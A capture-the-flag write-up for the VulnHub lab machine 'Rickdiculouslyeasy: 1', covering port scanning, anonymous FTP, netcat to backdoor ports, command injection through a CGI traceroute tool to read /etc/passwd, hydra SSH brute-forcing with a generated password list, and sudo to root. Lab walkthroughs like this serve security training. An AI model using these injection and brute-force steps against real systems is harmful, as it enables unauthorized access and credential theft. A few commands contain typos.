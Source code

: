 # Rickdiculouslyeasy: 1
## Writeup for the RICKDICULOUSLYEASY: 1

Downloadlink : 
https://www.vulnhub.com/entry/rickdiculouslyeasy-1,207/

*130 points of flas and root access*

1) Locate vulnerable machine IP address by using *netdiscover*  **Ip : 192.168.23.133** (^ip address will be diffrent on your machine) 
2) Scan for open ports using *NMAP.* **nmap -sV -p- -v 192.168.23.133**

**-nmap results-**
Nmap scan report for 192.168.18.29

Host is up (0.00015s latency).

Not shown: 65528 closed ports

PORT      STATE SERVICE VERSION

21/tcp    open  ftp     vsftpd 3.0.3

22/tcp    open  ssh?

80/tcp    open  http    Apache httpd 2.4.27 ((Fedora))

9090/tcp  open  http    Cockpit web service 161 or earlier

13337/tcp open  unknown

22222/tcp open  ssh     OpenSSH 7.5 (protocol 2.0)

60000/tcp open  unknown

Did a scan on the ftp server to get more info. ftp server can be accessed anonymous.

PORT   STATE SERVICE VERSION

21/tcp open  ftp     vsftpd 3.0.3

| ftp-anon: Anonymous FTP login allowed (FTP code 230)

| -rw-r--r--    1 0        0              42 Aug 22  2017 FLAG.txt

|_drwxr-xr-x    2 0        0               6 Feb 12  2017 pub

ftp 192.168.18.29 Login: anonymous password: *create a password*

get FLAG.txt 

cat file to get the flag

:pirate_flag: FLAG{Whoa this is unexpected} - 10 Points

use dirb tool to scan 

found http: //192.168.18.29/passwords/

click on the flag file

:pirate_flag: FLAG{Yeah d- just don't do it.} - 10 Points

click the passwords.html and inspect to find a potential password = winter

enter the url http: //192.168.18.29/9090 to get the next flag

:pirate_flag: FLAG {There is no Zeus, in your face!} - 10 Points

use netcat again on port 60000 to get a reverse shell and cat the FLAG.txt

:pirate_flag: FLAG{Flip the pickle Morty!} - 10 Points 

use netcat to enter port 13337 (nc 192.16.29 13337) to get a flag

:pirate_flag: FLAG:{TheyFoundMyBackDoorMorty}-10Points

From the dirb tool we found http: //192.168.18.29/robots.txt

Which gave us 3 links:

/cgi-bin/root_shell.cgi -Not working-

/cgi-bin/tracertool.cgi

/cgi-bin/*

/cgi-bin/tracertool.cgi enables a trace route tool. Use the url to inject less ; less /etc/passwd/ to get a list of users

Following list of users were found:

RickSanchez:x :1000:1000::/home/RickSanchez:/bin/bash

Morty:x :1001:1001::/home/Morty:/bin/bash

Summer:x :1002:1002::/home/Summer:/bin/bash

create a user.txt file with RickSanchez , Morty , Summer 

use hydra tool to crack the password by connecting via ssh = hydra -L user.txt -p winter -s 22222 192.168.18.29 ssh 

[22222][ssh] host: 192.168.18.29   login: Summer   password: winter

connect to ssh = ssh -p 22222 Summer@192.168.18.29

 less FLAG.txt

:pirate_flag: FLAG{Get off the high road Summer!} - 10 Points

Explore /home to find other users

cd to Morty and download the jpg file into local machine = cp -P 22222 Summer@192.168.18.29:/home/Morty/Safe_Password.jpg picture.jpg  

use the strings tool and grep to get clues = strings picture.jpg | grep word
                                                           127 ⨯
8 The Safe Password: File: /home/Morty/journal.txt.zip. Password: Meeseek

download the zip file to local machine = scp -P 22222 Summer@192.168.18.29:/home/Morty/journal.txt.zip test.zip

cat unzipped file to get flag

:pirate_flag: FLAG: {131333} - 20 Points

cd to RickSanchez and move the safe exe file Summer diretory 

excute ./safe 

Past Rick to present Rick, tell future Rick to use GOD DAMN COMMAND LINE AAAAAHHAHAGGGGRRGUMENTS!

try the previous flags numbers as arguments 

flag unlocked

:pirate_flag: FLAG{And Awwwaaaaayyyy we Go!} - 20 Points

found some clues for the next flag:

1 uppercase character

1 digit

One of the words in my old bands name.

Use google search to find Rick Sanchez band = The Flesh Curtains

Write a python scrip to generate a password list with clues: 

import string

words = ['The', 'Flesh', 'Curtains']

for i in string.ascii_uppercase:

    for j in string.digits:

        for k in words:

            print('{0}{1}{2}'.format(i, j, k))

Create a text file with generated password

use hydra to crack password = hydra -l RickSanchez -P passwordlist.txt -T4 -s 22222 192.168.18.29 ssh

enter RickSnachez user and sudo su to gain access to root

cd to root folder and cat file for final flag

:pirate_flag: FLAG: {Ionic Defibrillator} - 30 points




